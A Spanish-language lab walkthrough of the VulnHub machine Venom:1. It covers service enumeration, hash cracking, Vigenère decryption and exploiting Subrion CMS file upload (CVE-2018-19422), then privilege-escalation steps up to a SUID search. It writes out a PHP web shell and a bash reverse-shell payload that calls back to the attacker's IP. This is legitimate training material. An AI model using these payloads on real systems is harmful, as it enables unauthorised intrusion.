- - -

## Introducción 

En esta máquina de **VulnHub**, **Venom:1**, nos enfrentamos a un escenario con bastante peso en criptografía y en el encadenado de pequeñas pistas: tras enumerar los servicios *FTP* y *SMB*, crackeamos un hash *MD5* y descubrimos credenciales válidas que, combinadas con un cifrado **Vigenère**, nos permiten descifrar la contraseña de un segundo usuario y acceder a un subdominio protegido mediante *virtual hosting*.

Desde ahí, explotamos una vulnerabilidad de subida de archivos conocida en el CMS **Subrion** (*CVE-2018-19422*) para conseguir una **webShell** y derivarla en un **RCE**, con el que ganamos acceso inicial a la máquina. Ya dentro, encadenamos una reutilización de credenciales entre varios usuarios del sistema hasta llegar a la escalada final, abusando de un permiso *suid* poco habitual asignado al binario `find`.

Por combinar criptografía clásica, explotación de un CMS real con CVE asignado y una escalada de privilegios sencilla mediante GTFOBins, es una máquina de dificultad *easy* muy recomendable para seguir reforzando metodología de cara a la eJPTv2 y la eWPT.

## Fase de Reconocimiento 

- - -

### Identificación del objetivo en la red 

```bash
arp-scan -I enp0s3 --localnet --ignoredups
```

{: width="700" }

```bash
ping -c 1 10.0.2.24
```

{: width="500" }

Le lanzamos un `ping` y logramos determinar que la máquina víctima está encendida. A mayores, gracias al *TTL* podemos identificar como atacantes que estamos ante una máquina Linux, ya que generalmente `Linux (TTL → 64) | Windows (TTL → 128)` son los valores comunes si no han sido modificados.

### Escaneo de puertos 

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.0.2.24 -oN nmap/allPorts
```

```bash
grep '^[1-9]' nmap/allPorts | cut -d '/' -f1 | xargs | sort | tr ' ' ','
```



```bash
nmap -p21,80,139,443,445 -sCV 10.0.2.24 -oN nmap/targeted
```

{: width="700" }

Tras el escaneo de puertos vemos varios puertos abiertos: el 21, correspondiente al *FTP*; el 80 y 443, correspondientes al *HTTP* y *HTTPS* respectivamente; y el 139 y 445, correspondientes al servicio *SMB*. Algo a destacar es que `nmap`, en los servicios *HTTP* y demás, indica que la máquina víctima se trata de un Ubuntu, pero, más abajo, cuando lanza los scripts de reconocimiento del parámetro `-C` para el servicio *SMB*, indica que se trata de un Windows 6.1… Igual se está utilizando algún contenedor para los servicios o algo así, en breve lo veremos.

Vamos a empezar a enumerar los servicios.

## Enumeración 

- - -

### Servicio FTP

Para enumerar el servicio *FTP* podemos pasarle el script de `nmap` “ftp-anon” para validar si el usuario anonymous está habilitado. De no estarlo, poco más se puede hacer sin credenciales.

```bash
nmap -p21 --script ftp-anon 10.0.2.24
```

O directamente probarlo conectándonos al servicio:

{: width="400" }

En este caso no está habilitado, por lo que de momento no podemos hacer mucho más.

### Servicio HTTP

```bash
whatweb http://10.0.2.24
```



A priori parece una instalación por defecto de Apache2. Si accedemos a través del navegador:



Efectivamente, es una instalación por defecto de Apache2; lo único que nos llama la atención es que, al final de la página web, aparece lo siguiente:





Viendo el código fuente encontramos antes del mensaje lo que parece un hash en *md5* que podemos tratar de crackear.

```bash
echo -n "5f2a66f947fa5690c26506f66bde5c23" > hash
john --format=Raw-MD5 -w:/usr/share/wordlists/rockyou.txt hash
```

{: width="700" }

El valor del hash corresponde a “hostinger”. De momento no tenemos mucha información sobre este tema, así que vamos a pasar a aplicar fuzzing en la web.

```bash
feroxbuster -u http://10.0.2.24 -w /usr/share/SecLists-master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40
```

{: width="1000" }

No encontramos nada. En este punto, como la web que corre por el puerto 443 es exactamente igual que esta, vamos a enumerar el *SMB* a ver si encontramos algo de lo que tirar.

### Servicio SMB

La idea de enumeración de este servicio es hacer uso de las **Null Sessions** para aprovecharnos y listar contenidos y permisos de los recursos utilizando distintas herramientas, por ejemplo:

```bash
nxc smb 10.0.2.24 -u '' -p '' --shares
```



Logramos listar varios recursos sobre los que no tenemos permisos. Otra cosa que podemos tratar de hacer es enumerar usuarios válidos para este servicio SMB de la siguiente manera:

```bash
nxc smb 10.0.2.24 -u '' -p '' --users
```



Pero en este caso no logramos obtener nada destacable. En este punto, en el que no tenemos ningún hilo del que tirar, es conveniente utilizar una herramienta de enumeración mucho más completa y exhaustiva: `enum4linux`, que enumerará toda la información posible abusando del servicio *SMB*.

```bash
enum4linux 10.0.2.24
```

Entre la información más destacable del reporte encontramos:

{: width="600" }

{: width="600" }

De esta forma descubrimos que “nathan” y “hostinger” (que es el valor de la cadena en *md5* que crackeamos antes) son usuarios válidos del sistema. Sabiendo esto, podemos tratar de entrar en el servicio FTP ahora que tenemos usuarios y contraseñas (ya que quiero pensar que, al obtener la cadena hostinger en md5, debe de ser también una credencial).

{: width="300" }

Tras probar varias combinaciones, con hostinger:hostinger conseguimos acceder.

{: width="500" }

Descargamos el archivo y obtenemos lo siguiente:

### Criptografía 



En el archivo vemos varias cadenas en *base64*: lo que parece un dominio, por lo que puede que se esté aplicando *virtual hosting*, y un hash que hay que descifrar para obtener la credencial de administrador de un usuario llamado “dora”.



Tras descifrar las cadenas en *base64*, vemos que se nos dan varias pistas: el nombre de un tipo de cifrado, *Vigenère*, y una web donde podemos descifrar este tipo de cadenas cifradas. Cabe destacar que, en este tipo de cifrados, es necesaria una palabra clave para descifrar la cadena original, por lo que, teniendo la cadena cifrada, el método de cifrado y la contraseña “hostinger”, algo podremos hacer.

> **Cifrado Vigenère**
>
> Es un método de sustitución polialfabética que cifra un texto aplicando múltiples cifrados César en secuencia mediante una palabra clave repetida. A diferencia de los cifrados monoalfabéticos, oculta el análisis de frecuencias tradicional al transformar una misma letra en diferentes caracteres según su posición en la clave.
{: .prompt-info }

En mi caso iré al recurso web [CyberChef](https://cyberchef.org/) para tratar de descifrar la cadena.

{: width="1200" }

Como únicamente tenemos estos recursos de momento para descifrar la contraseña, vamos a confiar en que esa cadena sea la credencial de “dora”. En este punto nos queda añadir el dominio venom.box a nuestro archivo */etc/hosts* para que nuestra máquina lo resuelva y ver si se está aplicando *virtual hosting*.

{: width="400" }

Ahora accedemos a través del navegador al dominio, a ver si nos carga algún recurso distinto por el *virtual hosting*:



Y efectivamente, se estaba aplicando *virtual hosting*, y, al introducir el dominio, nos cargaron todos los recursos de la página correctamente. Bien, tenemos un usuario “dora” y una supuesta contraseña, así que vamos al panel de “Log in” y probamos ambos.

{: width="400" }

Y efectivamente son correctas las credenciales. En este punto debemos volver a aplicar una enumeración del servicio *HTTP* utilizando el dominio para descubrir tecnologías, versiones, rutas y demás.

### Servicio HTTP (Subdominio venom.box)

```bash
whatweb http://venom.box
```



La herramienta `whatweb` nos reporta que se está utilizando el CMS open source Subrion en su versión 4.2. Sabiendo esto, podemos buscar en GitHub su código fuente para hacernos una idea de cómo funciona y de si podemos aprovechar algo a nuestro favor, además de buscar vulnerabilidades conocidas.



Concretamente, desde la web vemos que es la versión 4.2.1.

```bash
searchsploit Subrion 4.2
```



Por lo que vemos, es vulnerable a múltiples técnicas de explotación; en nuestro caso, nos interesa la que nos permita derivar a **RCE** y ganar acceso a la máquina, como el **File Upload**. Podemos traernos ese exploit a nuestra máquina y tratar de ver qué hace, para tratar de replicarlo manualmente o lo que proceda.

## Explotación 

- - -

### Abuso de subida de archivos (**CVE-2018-19422**)

Echando un ojo al exploit, vemos que tiene un CVE asignado, el **CVE-2018-19422**, por lo que podemos sacar más información e incluso *PoCs* buscando en internet si no nos queda claro este script de Python.

```bash
searchsploit -m php/webapps/49876.py 
mv 49876.py subrionFileUpload.py && cat $_
```



En esta parte del código es donde sube la *webShell* a la ruta */panel/uploads*; también muestra el contenido de la *webShell* y la ruta a la que accede para verificar si funciona, ejecutando el comando `id`. Vamos a acceder a la ruta desde el navegador a ver qué encontramos, y a ver si podemos hacerlo manualmente.

{: width="1000" }

Encontramos una página donde, efectivamente, podemos subir archivos; vamos a tratar de subir manualmente una *webShell* y ver si podemos acceder a ella para ejecutar comandos en la máquina víctima.

```php
<?php system($_GET['cmd']); ?>
```
{: file="webShell.php" }

{: width="400" }

Una vez subido, tratamos de acceder dirigiéndonos al directorio */uploads*, a ver si conseguimos el **RCE**:



No tenemos acceso al recurso; nos devuelve el código de estado 403. Esto puede deberse a que se controlaron las subidas de archivos para ciertas extensiones, como `.php`, ya que, si nos fijamos, en el exploit se está subiendo un archivo **.phar**. Sabiendo esto, vamos a probar a renombrar el archivo y subirlo.

```bash
mv webShell.php webshell.phar
```



Y efectivamente, de esta forma logramos explotar el **File Upload**, derivarlo a un **RCE** para entablarnos una *reverse shell* y completar la intrusión a la máquina víctima.

#### Entablando Reverse shell

```http
http://venom.box/uploads/webShell.phar?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.2.13/443 0>%261"
```

Nos ponemos en escucha en nuestra máquina atacante.

```bash
nc -nlvp 443
```

{: width="600" }

De esta forma conseguimos realizar la intrusión en la máquina víctima. Vamos a hacer un tratamiento de la TTY antes de continuar con la enumeración local.

#### Tratamiento de la TTY

```bash
script /dev/null -c bash
# ctrl + z 
stty raw -echo;fg
reset xterm
export TERM=xterm SHELL=bash
stty rows 53 columns 206
```

Una vez hecho, podemos empezar con la enumeración local para escalar privilegios en la máquina víctima.

## Escalada de privilegios 

- - -

### Enumeración local 

Lo primero que haremos, al estar como usuario `www-data` y haber explotado un gestor de contenido, es examinar su sistema de archivos en busca de alguna credencial o backup del que nos podamos aprovechar.

{: width="500" }

Encontramos este contenido en el archivo *.htaccess* del directorio backup; puede ser otra cadena cifrada con Vigenère. Como no tenemos más información, vamos a dejarlo a un lado de momento.

```bash
grep 'sh$' /etc/passwd
```

{: width="700" }

Como antes pudimos acceder al *FTP* con el usuario hostinger y la contraseña hostinger, vamos a ver si se aplica una reutilización de credenciales y podemos migrar a este mismo usuario.



Efectivamente, logramos migrar a este usuario y podemos enumerar la máquina desde su contexto. Examinando el directorio home del usuario hostinger, vemos lo siguiente en el archivo *.bash_history*:



Viendo esto, ya nos podemos hacer a la idea de qué es la cadena que descubrimos antes en ese mismo archivo; vamos a tratar de migrar al usuario nathan utilizándola como credencial.



Efectivamente, logramos pivotar a este usuario. En este punto, debemos enumerar de nuevo la máquina desde el contexto de este usuario, y lo primero que vemos en su directorio home es la flag de usuario.



```bash
find / -perm -4000 2>/dev/null | grep -vE "snap|opt"
```

